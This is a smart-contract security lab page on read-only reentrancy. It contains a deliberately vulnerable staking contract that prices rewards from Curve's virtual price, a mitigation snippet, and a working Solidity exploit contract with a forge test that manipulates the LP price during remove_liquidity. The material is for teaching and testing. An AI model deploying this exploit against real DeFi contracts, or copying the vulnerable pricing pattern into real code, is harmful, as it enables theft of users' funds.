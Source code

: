 # Read Only Reentrancy  
[ReadOnlyReentrancy.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/ReadOnlyReentrancy.sol)   
**Name:** Read-Only Reentrancy Vulnerability

**Description:**  
The Read-Only Reentrancy Vulnerability is a flaw in smart contract design that allows attackers
to exploit the "read-only" nature of a function to make unintended changes to the contract's state.
Specifically, the vulnerability arises when an attacker uses the remove_liquidity function of the ICurve contract to trigger the receive function in the ExploitContract. This is achieved by an external call from a secure smart contract "A" invoking the fallback() function in the attacker's contract.

Through this exploit, the attacker gains the ability to execute code within the fallback() function
against a target contract "B," which is indirectly related to contract "A." Contract "B" derives
the price of the LP token from Contract "A," making it susceptible to manipulation and unintended price changes through the reentrancy attack.

**Mitigation:**  
Avoid any state-changing operations within functions that are intended to be read-only.
Makerdao example:  
```
// This will revert if called during execution of a state-modifying pool function.
if (nonreentrant) {
uint256[2] calldata amounts;
CurvePoolLike(pool).remove_liquidity(0, amounts);
}
```  
REF  

https://twitter.com/1nf0s3cpt/status/1590622114834706432

https://chainsecurity.com/heartbreaks-curve-lp-oracles/

https://medium.com/@zokyo.io/read-only-reentrancy-attacks-understanding-the-threat-to-your-smart-contracts-99444c0a7334

https://www.youtube.com/watch?v=0fgGTRlsDxI    

VulnContract:  
```
contract VulnContract {
    IERC20 public constant token = IERC20(LP_TOKEN);
    ICurve private constant pool = ICurve(STETH_POOL);

    mapping(address => uint) public balanceOf;

    function stake(uint amount) external {
        token.transferFrom(msg.sender, address(this), amount);
        balanceOf[msg.sender] += amount;
    }

    function unstake(uint amount) external {
        balanceOf[msg.sender] -= amount;
        token.transfer(msg.sender, amount);
    }

    function getReward() external view returns (uint) {
        //rewarding tokens based on the current virtual price of the pool LP token
        uint reward = (balanceOf[msg.sender] * pool.get_virtual_price()) /
            1 ether;
        // Omitting code to transfer reward tokens
        return reward;
    }
}
```
**How to Test:**

forge test --contracts src/test/ReadOnlyReentrancy.sol -vvvv  
```
// Function to test the exploitation of a read-only reentrancy vulnerability in the VulnContract
function testPwn() public {
    // Stake 10 ether into the VulnContract through the exploit contract
    hack.stakeTokens{value: 10 ether}(); 
    // Perform a read-only reentrancy attack on the VulnContract
    hack.performReadOnlyReentrnacy{value: 100000 ether}();
}

// Contract to exploit the read-only reentrancy vulnerability in VulnContract
contract ExploitContract {
    // Interfaces for interacting with the ICurve and IERC20 contracts
    ICurve private constant pool = ICurve(STETH_POOL);
    IERC20 public constant lpToken = IERC20(LP_TOKEN);
    // The vulnerable contract to be exploited
    VulnContract private immutable target;

    // Constructor to initialize the vulnerable contract
    constructor(address _target) {
        target = VulnContract(_target);
    }

    // Function to stake LP tokens into the VulnContract
    function stakeTokens() external payable {
        // Amounts to be added as liquidity to the Curve pool
        uint[2] memory amounts = [msg.value, 0];
        // Add liquidity to the Curve pool and receive LP tokens in return
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log the price of the LP token after adding liquidity
        console.log(
            "LP token price after staking into VulnContract",
            pool.get_virtual_price()
        );
        // Approve the VulnContract to spend LP tokens on behalf of this contract
        lpToken.approve(address(target), lp);
        // Stake the LP tokens into the VulnContract
        target.stake(lp);
    }

    // Function to perform the read-only reentrancy attack on the VulnContract
    function performReadOnlyReentrnacy() external payable {
        // Amounts to be added as liquidity to the Curve pool
        uint[2] memory amounts = [msg.value, 0];
        // Add liquidity to the Curve pool and receive LP tokens in return
        uint lp = pool.add_liquidity{value: msg.value}(amounts, 1);
        // Log the price of the LP token before removing liquidity
        console.log(
            "LP token price before remove_liquidity()",
            pool.get_virtual_price()
        );
        // Minimum amounts to be received when removing liquidity
        uint[2] memory min_amounts = [uint(0), uint(0)];
        // Remove liquidity from the Curve pool, which will trigger the receive function
        pool.remove_liquidity(lp, min_amounts);
        // Log the price of the LP token after removing liquidity
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price after remove_liquidity()",
            pool.get_virtual_price()
        );
        // Log the reward amount that would be received from the VulnContract
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is not invoked: ", reward);
    }

    // Fallback function that will be triggered when removing liquidity from the Curve pool
    receive() external payable {
        // Log the price of the LP token during the removal of liquidity
        console.log(
            "--------------------------------------------------------------------"
        );
        console.log(
            "LP token price during remove_liquidity()",
            pool.get_virtual_price()
        );
        // Log the reward amount that would be received from the VulnContract
        uint reward = target.getReward();
        console.log("Reward if Read-Only Reentrancy is invoked: ", reward);
    }
}
```
Red box: exploited successful, price manipulated  
![Alt text](image-4.png)  
![Alt text](image-5.png)